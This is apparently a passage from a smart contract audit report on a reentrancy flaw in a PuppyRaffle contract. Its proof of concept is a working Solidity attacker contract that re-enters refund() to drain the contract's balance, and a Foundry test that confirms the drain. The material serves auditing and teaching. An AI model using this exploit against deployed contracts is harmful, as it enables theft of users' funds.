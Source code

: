 **Impact:** Exploitation of this reentrancy issue can result in the unauthorized drainage of the contract's balance.

**Proof of Concept:**

1. Develop a new contract to exploit the reentrancy.

```js
contract ReentrancyContract {
    PuppyRaffle immutable target;
    uint256 immutable entranceFee;
    uint256 private index;

    constructor(address _target) payable {
        target = PuppyRaffle(_target);
        entranceFee = PuppyRaffle(_target).entranceFee();
    }

    function withdraw(address to) external {
        selfdestruct(payable(to));
    }

    function attack() external payable {
        require(msg.value == entranceFee, "Entrance Fee is not enough");
        // enter the raffle
        address[] memory newPlayers = new address[](1);
        newPlayers[0] = address(this);
        target.enterRaffle{value: msg.value}(newPlayers);

        // Get player index of the contract
        index = target.getActivePlayerIndex(address(this));
        // Call refund to exploit reentrancy
        target.refund(index);
    }

    receive() external payable {
        if (address(target).balance >= entranceFee) {
            target.refund(index);
        }
    }
}
```

2. Execute the attack using a unit test.

```js
    // from playersEntered modifier, there are exist 4 active players
    function testDrainedContractBalanceUsingReentrancy() public playersEntered {
        address newPlayer = makeAddr("player");
        // Puppy raffle balance before being attacked
        uint256 prevPuppyRaffleBalance = address(puppyRaffle).balance;
        // create reentrancy exploit contract
        ReentrancyContract target = new ReentrancyContract(address(puppyRaffle));
        // attack the puppy raffle
        target.attack{value: entranceFee}();
        // withdraw all of the ammount
        target.withdraw(newPlayer);

        // Puppy raffle balance after being attacked
        uint256 newPuppyRaffleBalance = address(puppyRaffle).balance;
        uint256 expectedNewPlayerBalance = prevPuppyRaffleBalance + entranceFee;
        uint256 actualNewPlayerBalance = newPlayer.balance;

        assertEq(expectedNewPlayerBalance, actualNewPlayerBalance);
        assertEq(newPuppyRaffleBalance, 0);
    }
```